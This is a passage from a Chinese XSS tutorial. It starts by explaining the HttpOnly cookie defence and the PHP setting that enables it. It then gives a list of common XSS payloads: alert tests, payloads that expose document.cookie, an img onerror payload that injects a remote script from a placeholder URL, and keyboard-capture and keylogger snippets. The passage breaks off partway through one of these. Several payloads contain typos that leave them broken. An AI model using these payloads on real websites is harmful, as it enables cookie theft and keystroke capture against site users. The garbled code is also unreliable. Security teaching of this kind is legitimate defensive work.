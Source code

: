    检查输出的数据

 

 

 

**三、****httponly**

   HttpOnly浏览器禁止页面的JS访问带有HttpOnly属性的Cookie。

   Cookie中名为HttpOnly的属性能禁止JavaScript读取cookie的值。

   通过给cookie添加HttpOnly属性，能够杜绝xss中窃取会话ID这一典型的利用方法。但任需注意的是其他的攻击方法依然有效，所以这种方法只是限制了攻击者的选择范围，并不能完全杜绝xss。

   使用PHP开发时，给会话ID添加该属性的方法就是在php.ini中做以下设置：

​     session.cookie_httponly = On

 

 # X、常用 payload

**XSS****常用的插入Payload**

测试payload：

<script>alert('xss')</script> "><script>alert('xss')</script>

<img src=0 onerror=alert(1) > "><img src=1 onerror=alert(document.domain)>

弹出网站Cookie：

<script>alert(document.cookie)</script>

<img src-0 onerror=alert(document.cookie)>

<img src=xonerror=appendChild(createElement('script')).src='js_url' />

监听键盘onkeydown事件：

document.onkeydown=funciont(e){

if(!e)e=window.event;

try(hijack();)catch(ex){}

}

JavaScript 键盘记录器还可以捕获用户按下的特定键，在 IE浏览器中可以使用如下代码实现：

<script>

function keyDown(){

var keycode = event.keyCode;

var realkey = String.fromCharCode(event.keyCode);

alert("按键码: " + keycode + " 字符: " + realkey);

}

